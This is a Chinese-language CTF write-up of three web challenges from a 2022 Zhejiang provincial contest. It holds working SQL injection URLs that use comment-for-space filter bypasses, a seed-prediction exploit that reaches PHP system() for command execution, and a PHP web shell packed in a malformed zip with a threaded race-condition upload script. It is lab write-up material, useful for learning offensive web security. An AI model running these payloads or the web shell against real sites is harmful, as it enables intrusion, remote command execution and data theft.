






# 2022 浙江省省赛 WP

## babysql

一道简单的数字型 SQL

搞了好久，一开始以为是过滤 select，结果发现只是过滤了空格，日。

空格用 `/**/`绕过，是一个数字型的注入

可以这样判断 SQL 注入

```none
id=0/**/or/**/1=1
```

这时候会发现，有一个 user，说明被截断了，所以必须要用 `group_concat`



判断列是3，在四个的时候会无回显的



爆库：

```none
http://1.14.97.218:20404/search.php?id=0/**/union/**/select/**/database(),2,3
```



爆表

```none
http://1.14.97.218:20404/search.php?id=0/**/union/**/select/**/group_concat(table_name),group_concat(table_schema),3/**/from/**/information_schema.tables/**/where/**/table_schema='ctf'
```



最后发现是在 emails 里面，有点坑，我以为 emails 里面是两列，就一直两列了，结果一直出不来数据、

先爆列

```none
http://1.14.97.218:20404/search.php?id=0/**/union/**/select/**/group_concat(column_name),group_concat(column_name),3/**/from/**/information_schema.columns/**/where/**/table_schema='ctf'/**/and/**/table_name='emails'
```



爆email的数据

```none
http://1.14.97.218:20404/search.php?id=0/**/union/**/select/**/group_concat(id),group_concat(email_id),2/**/from/**/emails
```

成功得到 flag



DASCTF{09477859078112710768034529255251}

- 确实简单，但是基本功不扎实

## ezphp

一段简单的 PHP 代码，第一次见这种题目

题目源代码如下

```php
<?php  
error_reporting(0);  
highlight_file(__FILE__);  
mt_srand(time());  
$a = array("system",$_GET['cmd']);  
for ($i=0;$i<=10000;$i++){ array_push($a,"Ctfer");  
}  
shuffle($a);  
$a[$_GET['b']]($a[$_GET['c']]);
```

只要简单传参，cmd 就可以进行命令执行，但是却会有一点小问题。

- 这里最主要的一个方法是 `shuffle()`，这个方法的意义如下：

把数组中的元素按随机顺序重新排列

这里有一个数组，长度是 1w；会把一万个`Ctfer` 压到数组底部然后再打乱，但是由于这里用到了 `mt_srand(time());` 导致打乱数组的顺序其实是伪随机的，而种子为时间戳，那么我们可以伪造未来的时间戳，然后提前知道顺序直接命令执行。

没做出来，题目挺新的

代码如下，这里需要科普一下 PHP7 版本

> PHP 7.1.0：内置的随机数产生算法从 libc rand 函数改成 梅森旋转演伪随机数发生算法。

本来是不可以爆破的，现在可以爆破了。  
我们只需要让 b 对应的是 system 那个元素，c 对应的是执行语句的就可以，写个 EXP

写入文件，找到对应的下标：

```php
<?php
mt_srand(1663982460);
$a = array("system","ls /;cat /f*");
for ($i=0;$i<=10000;$i++){
    array_push($a,"Ctfer");
}
shuffle($a);
$s = "";
foreach($a as $key=>$value){
    $s = $s."[".$key."]".$value."\\n";
}
$fp = fopen('output.txt','w+');
fwrite($fp,$s);
```

直接死循环访问拿到 flag

```python
import requests
import time


url = '<http://1.14.97.218:27546/?cmd=ls> /;cat /f*&b=9168&c=5478'


while True:
# time.sleep(0.01)
r = requests.get(url)
 print(r.text)
```

## upload

尝试传了很多文件，最后发现只有 zip，rar 是可以的，其他都不行。如果是要这样打的话，肯定是需要源码的，但是一直没找到源码。

存在源码泄露，笑死。第一步就没找到源码。

位置处于：`.upload.php.swo`

源码如下

```php
<?php
error_reporting(0);
$type = pathinfo($_FILES["file"]["name"],PATHINFO_EXTENSION);
if ($type != "zip" && $type != "rar"){
    die("no");
}
$random_path = "upload/".md5(uniqid(mt_rand(), true));
$file_name = md5(uniqid(mt_rand(), true)).".zip";
mkdir($random_path);
$file_path = $random_path."/".$file_name;
move_uploaded_file($_FILES['file']['tmp_name'],$file_path);
$zip = new ZipArchive();
if (file_exists($file_path)){
    try {
        $zip->open($file_path);
        $zip->extractTo($random_path);
        $zip->close();
    }catch (Throwable  $e){
        $zip->close();
        rename($random_path,"error/".md5(time()));
    }
}
system("rm -rf error/*");
system("rm -rf upload/*")

?>
```

文件上传之后在 upload 目录下直接 md5 随机数生成目录，再把上传的文件解压，要得到这个目录名是很困难的，但是后面的代码中说明当解压出现异常的时候会把文件解压到 `error/md5(time())` 目录下，又又又是时间戳，那思路和之前的一样利用未来的时间戳。上传P神说过的会使 `ZipArchive` 出错的 zip，然后多线程访问

恶意的 zip

```payload
| a.zip
 - /////
 - a.php >> <?=system($_POST['cmd']);?>
```

exp:

```python
import requests
import hashlib
import threading


url = '<http://1.14.97.218:24533/upload.php>'


def upload():
    d = hashlib.md5('1663987800'.encode()).hexdigest()
    r = requests.post(url, files={'file': open('../a.zip', 'rb')})
    rr = requests.post('<http://1.14.97.218:24533/error/'+d+'/a.php>', data={'cmd': 'cat /f*'})
 if rr.status_code == 200:
 print(rr.text)


if __name__ == '__main__':
 while True:
        a = threading.Thread(target=upload)
        b = threading.Thread(target=upload)
        a.start()
        b.start()
```